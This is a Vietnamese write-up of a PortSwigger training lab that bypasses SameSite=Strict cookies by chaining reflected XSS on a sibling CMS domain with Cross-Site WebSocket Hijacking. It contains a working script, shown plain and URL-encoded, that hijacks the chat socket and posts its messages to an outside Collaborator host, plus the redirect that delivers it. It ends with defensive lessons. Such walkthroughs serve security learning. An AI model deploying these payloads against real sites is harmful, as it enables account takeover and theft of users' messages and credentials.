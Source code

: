 # Write-up: SameSite Strict bypass via sibling domain

### Tổng quan
Khai thác lỗ hổng Cross-Site WebSocket Hijacking (CSWSH) kết hợp với Cross-Site Scripting (XSS) trên một sibling domain (`cms-lab-id.web-security-academy.net`) để bypass thuộc tính `SameSite=Strict` của cookie phiên trên domain chính (`lab-id.web-security-academy.net`). Ứng dụng live chat sử dụng WebSocket tại `wss://lab-id.web-security-academy.net/chat` mà không có token bảo vệ, cho phép lấy nội dung chat. Payload XSS trên sibling domain thực thi mã CSWSH, gửi nội dung chat (chứa password của `carlos`) đến Burp Collaborator, sau đó sử dụng thông tin đăng nhập để hoàn thành lab.

### Mục tiêu
- hai thác lỗ hổng XSS trên sibling domain để thực thi mã CSWSH, lấy nội dung chat chứa password của `carlos` qua Burp Collaborator, sử dụng thông tin đăng nhập để truy cập tài khoản và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập trang live chat /chat và quan sát yêu cầu GET trong Burp Proxy:
- **Quan sát**:
    - Response không chứa token bảo vệ, gợi ý khả năng khai thác Cross-Site WebSocket Hijacking (CSWSH) nếu bypass được `SameSite` cookie.
    ![chat](./images/2_caht.png)
    - Trong Proxy Websocket history mỗi khi reload page hiển thị READY
        ![ready](./images/1_ready_chat.png)

2. **Kiểm tra CSWSH**
- Tạo payload CSWSH và đưa vào Exploit Server để kiểm tra khả năng lấy nội dung chat:
    ```java
    <script>
    var ws = new WebSocket('wss://0a9100cf0343f44c80b0bca500b700a5.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://z77el42i50e99dstwktc5bw5rwxnlh96.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
    </script>
    ```
- Store và view exploit trong Exploit Server.
- **Phản hồi**: Nhận được request POST tại Burp Collaborator với nội dung chat, xác nhận CSWSH khả thi nếu bypass được `SameSite=Strict`:
    ![confirm](./images/3_confirm.png)

- Quan sát response của request `GET /chat` lần nữa ta thấy `SameSite=Strict` -> Ngăn chặn trình duyệt đưa cookie này vào các yêu cầu liên kết trang 
    ![samesite](./images/4_samesite.png)

- Quan sát response của GET `/resources/js/chat.js:`    
    - **Quan sát**: Header `Access-Control-Allow-Origin`: `https://cms-lab-id.web-security-academy.net` cho thấy `cms-lab-id` là `sibling domain`, có thể được phép tương tác với domain chính:
        ![sibling](./images/5_access-control-allow-origin.png)

3. **Khai thác XSS trên sibling domain**
- Truy cập `https://cms-lab-id.web-security-academy.net/login`, đăng nhập thử với tài khoản wiener:peter.
    ![reflected](./images/6_reflected.png)
- **Quan sát**: Username được reflected trong response, thử với payload XSS:
    `username=<script>alert(1)</script>&password=peter`
    - **Phản hồi**: Hộp thoại `alert(1)` xuất hiện, xác nhận lỗ hổng Reflected XSS trong trường `username`:
       ![xss](./images/7_alert(1).png)

4. **Khai thác (Exploitation)**
- Mã hóa URL toàn bộ payload CSWSH:
    ```
    %3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%39%31%30%30%63%66%30%33%34%33%66%34%34%63%38%30%62%30%62%63%61%35%30%30%62%37%30%30%61%35%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%7a%37%37%65%6c%34%32%69%35%30%65%39%39%64%73%74%77%6b%74%63%35%62%77%35%72%77%78%6e%6c%68%39%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
    ```
- Tạo payload XSS trong Exploit Server để kích hoạt CSWSH:
```html
<script>
  document.location = "https://cms-lab-id.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%39%31%30%30%63%66%30%33%34%33%66%34%34%63%38%30%62%30%62%63%61%35%30%30%62%37%30%30%61%35%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%7a%37%37%65%6c%34%32%69%35%30%65%39%39%64%73%74%77%6b%74%63%35%62%77%35%72%77%78%6e%6c%68%39%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=peter";
</script>
```
- Store và view exploit để kiểm tra.
- **Phản hồi**: Nhận được dữ liệu chat tại Burp Collaborator:
    ```json    
    {"user":"Hal Pline","content":"No problem carlos, it&apos;s f8saj9tjzyjioeve1r3n"}
    ```     
    ![collab](./images/8_password.png)

- Sử dụng thông tin từ dữ liệu chat: `carlos`:`f8saj9tjzyjioeve1r3n` đăng nhập và hoàn thành lab.
    ![solved](./images/9_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng XSS trên sibling domain để thực thi mã CSWSH, bypass thuộc tính `SameSite=Strict` của cookie phiên, lấy nội dung chat chứa thông tin đăng nhập của nạn nhân.
- Nhận thức tầm quan trọng của việc làm sạch (sanitizing) input người dùng trên các domain liên quan, triển khai token bảo vệ WebSocket, và cấu hình CORS chặt chẽ để ngăn chặn các cuộc tấn công CSWSH và XSS.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác XSS trên sibling domain để thực thi CSWSH, bypass `SameSite=Strict` và lấy thông tin đăng nhập, nhấn mạnh tầm quan trọng của việc bảo vệ input người dùng, cấu hình CORS, và sử dụng token cho WebSocket. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*